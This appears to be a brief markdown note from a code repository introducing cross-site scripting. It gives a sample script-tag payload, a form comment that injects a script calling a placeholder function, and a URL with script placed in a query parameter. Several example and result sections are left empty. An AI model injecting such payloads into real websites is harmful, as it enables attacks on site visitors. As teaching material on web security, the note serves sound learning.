



# XSS

## XSS payload

Example :

* N°1 : 
```bash=
<script\x20type="text/javascript">javascript:alert(1);</script>
```

[XSS Github](https://github.com/payloadbox/xss-payload-list)

## Formulaire

Insert in form the following lines :
```bash=
<!-- Normal comment--><p>Your comment goes here </p> <!--Malicious comment--><p><script>evilcod()</script></p>
```

Results in source code :


Other example : 
```bash=

```



## URL
Here's a quick example of an URL with malicious javascript included:
```<https://somewebsite.com/titlepage?id=> <script> evilcode() </script> ```

Results in website :



